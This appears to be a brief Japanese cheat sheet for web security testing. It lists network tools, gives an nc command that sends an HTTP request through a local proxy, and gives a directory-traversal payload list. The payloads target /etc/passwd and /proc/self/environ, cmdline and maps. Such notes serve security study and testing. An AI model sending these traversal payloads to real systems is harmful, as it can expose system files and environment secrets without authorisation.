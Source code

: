 # Web

## ツール

- Wireshark
- Python
  - Scapy
  - dpkt
- nc

```bash
# -cで改行入力を待つ。-xでプロキシ経由
nc -c -X connect -x localhost:8080 localhost 80
GET / HTTP/1.1
Host: 127.0.0.1
```

## ディレクトリトラバーサル

```bash
../../../../../../../../../../etc/passwd
../../../../../../../../../../proc/self/environ
../../../../../../../../../../proc/self/cmdline
../../../../../../../../../../proc/self/maps
```
